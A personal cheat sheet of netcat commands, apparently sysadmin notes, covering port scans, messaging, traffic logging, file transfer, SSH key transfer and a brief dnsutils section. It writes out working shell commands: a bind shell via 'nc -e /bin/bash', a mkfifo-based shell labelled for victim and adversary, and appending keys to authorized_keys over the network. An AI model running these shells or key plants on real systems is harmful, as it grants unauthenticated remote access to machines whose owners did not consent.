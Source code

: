 - **NOTE**: Exact syntax depends on `netcat-traditional` vs `netcat-openbsd` vs `nmap`'s `ncat` and exact version
  - `netcat-traditional` requires `-p` to specify port when listening, while `netcat-openbsd` does not
- `nc <address> 22` to see if SSH is running on host
- Scan: `nc -z <host> 1-65535` to scan all ports on `<host>` (may wish to use with `-z` for progress)
- Simple communication
  - `host1$ nc -l -p 1234` to listen on a host
  - `host2$ nc <host1> 1234` to send traffic to the listening host
  - `host3$ nc <host1> 1234 -c "<command>"` to send the `stdout` of `<command>` to the listening host and close connection
  - `host4$ nc <host1> 1234 -c "<command> 2>&1"` to send the `stdout` *and* `stderr` of `<command>` to the listening host and close connection
- Simple traffic logging
  - `host1$ nc -l -p 1234 -o nc-traffic.hex` to listen on a host and redirect messages to file
  - `host1$ xxd -r nc-traffic.hex` to reverse subseqent traffic hex
- Simple reverse shell
  - Using modern `netcat` (**with `-e` available**)
    - `host1$ nc -l -p 1234 -e /bin/bash` to execute all received messages via bash
    - `host2$ nc <host1> 1234` to establish connection to listener
    - `<command>` from `host2` during remote session to execute `<command>` on the listener's system
  - Using older `netcat` (**no `-e` available**)
    - Listener (victim, if hacking scenario):
      - `rm -f /tmp/commands; mkfifo /tmp/commands` to make a temporary input stream that we can redirect to `bash`
      - `cat /tmp/commands | /bin/bash -i 2>&1 | nc -l -p 1234 > /tmp/commands`
    - Client (adversary, if hacking scenario)
      - `nc <listener-address> 1234` to connect
- Transfer a file to another host
  - `host1$ nc -l -p 1234 > rx-file` to listen for connections and redirect stream to file
  - `host2$ nc -N <host1> 1234 << tx-file` to transfer a file and close the connection (`-N`) on EOF
- Transfer an SSH public key from client to listener
  - `host1$ nc -l -p 1234 >> ~/.ssh/authorized_keys` to listen and append transferred key to `authorized_keys`
  - `host2$ nc -N <host1> 1234 < ~/.ssh/key.pub` to transfer the key file to listener and close the connection (`-N`) on EOF
- Transfer an SSH public key from listener to client
  - Scenario: I needed to do this one time because I couldn't set up a listener (accept inbound connections from the LAN) because WSL was behind a NAT. Instead, I set up a listener on the machine who wanted to send, and had the listener send the file.
  - `host1$ nc -l -p 1234 < <(tail -n 1 ~/.ssh/authorized_keys)` to listen for connections, while putting the specified contents in the stream
  - `host2$ nc <host1> 1234 > ~/.ssh/key.pub` to grab the contents of that file and redirect it to the proper file

## `dnsutils`

- `dig` (*dig is a flexible tool for interrogating DNS name servers*)
- `nslookup` (*nslookup is a program to query Internet domain name servers*)
  - `nslookup 7-zip.org` to get the IP for `7-zip.org`

